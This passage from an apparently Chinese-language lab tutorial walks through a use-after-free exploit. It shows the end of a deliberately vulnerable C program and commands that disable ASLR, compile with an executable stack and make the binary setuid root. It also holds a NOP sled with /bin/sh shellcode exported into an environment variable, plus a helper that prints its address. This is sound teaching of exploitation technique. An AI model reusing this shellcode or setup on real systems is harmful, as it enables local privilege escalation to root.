 ```c
       可以通过 ptr1 向内存中注入 shellcode ，当 vuln 使用这块内存时，就会执行shellcode。
       */
       ptr1 = malloc(256);
       strcpy(ptr1, argv[1]);

       free(ptr1);
       vuln->clean(vuln);

       return 0;
}
```

### 编译uaf.c

关闭 ASLR，打开栈可执行编译 uaf.c，并将编译好的程序设置成 root 所有 suid 程序

```bash
sudo sysctl -w kernel.randomize_va_space=0
gcc -z execstack -o uaf uaf.c
sudo chown root:root uaf
sudo chmod 4755 uaf
```

![image-20220405200457301](UAF/image-20220405200457301.png)

### 送入shellcode

 把 shellcode 放进环境变量 EGG，由于含有不可输出字符，所以使用 Python 送入环境变量，使用以下语句： 

```bash
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

编写 att.c 文件用以输出环境变量的地址。

```c
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
    printf("EGG address: %p ", getenv("EGG"));
}
```
